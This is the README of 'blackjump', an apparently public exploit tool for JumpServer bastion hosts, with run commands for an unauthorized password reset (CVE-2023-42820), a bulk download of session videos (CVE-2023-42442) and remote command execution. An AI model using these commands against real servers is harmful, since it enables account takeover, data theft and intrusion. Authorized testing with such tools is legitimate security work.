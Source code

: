 ## blackjump

[简体中文](https://github.com/tarimoe/blackjump/README.md) | [English](https://github.com/tarimoe/blackjump/README_EN.md)

> Legal Disclaimer: This tool is only intended for legally authorized enterprise security construction activities. 
> 
> When using this tool for testing, you should ensure that the behavior complies with local laws and 
> regulations and has obtained sufficient authorization. Do not use against unauthorized targets. 
> 
> If you engage in any illegal behavior during the use of this tool, 
> you shall bear the corresponding consequences on your own, and we will not assume any legal or joint liability


JumpServer Fortress Machine Integrated Vulnerability Exploit Tool
- [x] Unauthorized password reset for any user (CVE-2023-42820)
- [x] Unauthorized download of all operation videos (CVE-2023-42442)
- [x] Unauthorized Remote Command Execution (RCE 2021)

## Install
```bash
python3 -m pip install -r requirements.txt
```

## Usage
+ CVE-2023-42820: You can specify `--user` and `--email` option if you know the username and email in reset password module
```bash
python3 blackjump.py reset https://vulerability
```
![img.png](img/img.png)
+ CVE-2023-42442: The `<uuid4>.tar` file in the `outputs/` directory can be thrown into the <u>[jumpserver player](https://github.com/jumpserver/VideoPlayer/releases)</u>
```bash
python3 blackjump.py dump https://vulerability
```
![img_1.png](img/img_1.png)

+ RCE
```shell
python3 blackjump.py rce http(s)://vulerability
```
![img.png](img/img_2.png)

+ help
```bash
python3 blackjump.py {reset,dump,rce} -h
```

## Ref
1. https://github.com/Veraxy00/Jumpserver-EXP (Made some optimizations)